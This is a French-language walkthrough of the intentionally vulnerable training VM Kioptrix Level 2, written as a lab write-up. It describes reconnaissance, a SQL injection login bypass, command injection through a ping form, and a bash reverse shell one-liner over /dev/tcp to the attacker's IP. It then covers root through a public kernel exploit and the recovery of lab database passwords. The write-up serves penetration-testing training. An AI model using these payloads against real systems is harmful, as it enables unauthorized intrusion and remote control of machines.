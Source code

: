 ```yaml
---
description: 'Walkthrough de la machine Kioptrix: Level 2'
---
```


# Kioptrix: Level 2

## Détails de la machine

**Nom :** Kioptrix: Level 2  
**Date de sortie :** 11 Février 2011  
**Lien de téléchargement :** [http://www.kioptrix.com/dlvm/Kioptrix\_Level\_2.rar](http://www.kioptrix.com/dlvm/Kioptrix_Level_2.rar)  
**Niveau :** Facile  
**Objectif\(s\) :** obtenir un accès "root"  
**Description :**  
`This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.   
  
This is the second release of #2. First release had a bug in it with the web application  
2012/Feb/09: Re-releases  
2011/Feb/11: Original Release`

## Reconnaissance

`netdicover` permet d'identifier l'adresse IP 192.168.1.15 comme étant notre victime :

![](../../../.gitbook/assets/b236a71d370dbb557718fdf87b3310de.png)

Suivi de `nmap` afin de scanner les services s'exécutant sur la machine :

![](../../../.gitbook/assets/3c98b193738de5640529c7488d16abb0.png)

Résultat : un service SSH, un serveur web \(en version HTTP et HTTPS\), un serveur d'impression CUPS ainsi qu'une base de données MySQL.

### Serveur HTTP

On commence directement par l'analyse du serveur web car je n'ai rien identifié de pertinent concernant la version 3.9 d'OpenSSH. Les résultats du `dirb` ainsi que du `nikto` ne donne rien de particulièrement intéressant non plus :

![](../../../.gitbook/assets/632f2601b754f23875ba841fe066b162.png)

La sortie est tronquée avec un -r mais rien d'intéressant même dans les sous-dossiers. Voici la sortie du `nikto` :

![](../../../.gitbook/assets/25d8f8c69663c0bd739f30efba3f3a0c.png)

On passe donc à l'analyse manuelle du site web. La page d'accueil est une mire d'authentification. Après quelques weaks credentials on tente de détecter une injection SQL avec un simple `' OR 1=1 --` :

![](../../../.gitbook/assets/138b88530829224c303ba8a6da81f596.png)

Cela fonctionne et nous permet de récupérer la prochaine page qui est une fonction permettant de pinger une machine du réseau \(ça sent l'injection de commande\) :

![](../../../.gitbook/assets/387198eb410ca24f85d8650701874168.png)

On tente la plus simple des injections avec le caractère `;` permettant de séparer des commandes :

![](../../../.gitbook/assets/c740bfb3515f48418d595e5af47b73cd.png)

On récupère l'id du compte apache qui exécute le serveur web. L'injection de commande est confirmée.

### Serveur d'impression

Cups est un serveur d'impression permettant aux utilisateurs de configurer les différents imprimantes. Pour cela il est également possible d'accéder au service par son interface web, dans notre cas un "403 - Forbidden" nous l'interdit :

![](../../../.gitbook/assets/88a52f4707669bd539b88b458ac4fc88.png)

La version utilisée de CUPS est la version 1.1, elle est vulnérable au moins à la CVE suivante \(car je n'ai pas beaucoup cherché mais il semble que d'autres CVE sont disponibles pour cette version\) :

![](../../../.gitbook/assets/d703a626c7f475515f7a4673dc41a387.png)

### MySQL

Nous ne connaissons pas la version du système de base de données afin de déterminer si le service est vulnérable à certaines CVE.

## Exploitation

### Injection de commande

Il est facile de récupérer un shell grâce à l'injection de commande. `netcat` ne semble pas disponible sur la machine cible, je suis donc passé par un `bash` grâce à la commande `;bash -i >& /dev/tcp/192.168.1.89/5555 0<&1`. Afin de l'utiliser dans la requête POST je l'ai préalablement encodée avec un encodage URL : 

![](../../../.gitbook/assets/6fe012f0214d723cfac732eb5a647144.png)

Côté machine d'attaque, un `netcat` en écoute sur le port 5555 :

![](../../../.gitbook/assets/4ba3d8e2bcdca66ab9ba25049194b65d.png)

## Élévation de privilèges

Un `uname -a` nous indique une version de kernel 2.6.9 sur une Fedora 4.5 qui est vulnérable à la CVE-2009-2698 :

![](../../../.gitbook/assets/b7815d98dd05fd179ce4526541faac60.png)

Voici la CVE :

![](../../../.gitbook/assets/af4235a012598d0cfece5e368071a386.png)

Une fois l'exploit \([https://www.exploit-db.com/exploits/9542](https://www.exploit-db.com/exploits/9542)\) compilé et exécuté, nous sommes "root" :

![](../../../.gitbook/assets/b0bc23db78339563d8cf5087c24d1552.png)

## Conclusion

Il est également possible de récupérer les credentials de MySQL en affichant le fichier "index.php" du site web \(soit une fois le shell récupéré ou alors via l'injection de commande\) :

![](../../../.gitbook/assets/1dcd2f0b309cefd3548130d52d19cec1.png)

L'accès est refusé à partir d'une autre machine, mais une fois le shell récupéré grâce à l'injection de commande le contenu de la base est accessible :

![](../../../.gitbook/assets/d386607ad7c9b223571ecc7e9baec8b5.png)

Mais aucun des mots de passe \("hiroshima", ou "66lajGGbla"\) ne semble être le mot de passe du compte de "john" pour un accès en SSH. Pour information voici le contenu du fichier "/etc/passwd" :

![](../../../.gitbook/assets/ed4a366ae26ff7fd9393cb853207f4b6.png)

Je n'ai pas était plus loin dans la compromission des comptes existants, aucun mot de passe ne semble traîner dans un fichier quelconque.

Cette machine était très facile et donc parfaite pour commencer le pentest. Rien de compliqué, des failles web et un LPE à coup d'exploit d'un kernel vulnérable.



